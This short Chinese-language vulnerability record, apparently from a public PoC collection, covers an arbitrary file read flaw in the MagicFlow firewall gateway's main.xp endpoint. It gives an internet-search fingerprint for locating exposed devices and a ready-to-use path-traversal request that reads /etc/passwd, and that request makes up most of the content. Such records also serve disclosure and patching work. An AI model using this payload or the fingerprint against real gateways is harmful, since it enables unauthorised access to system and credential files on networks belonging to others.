

# MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

<a-checkbox checked>MagicFlow 防火墙网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="MSA/1.0"</a-checkbox></br>

## 漏洞复现

登录页面如下


构造POC


```plain
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```


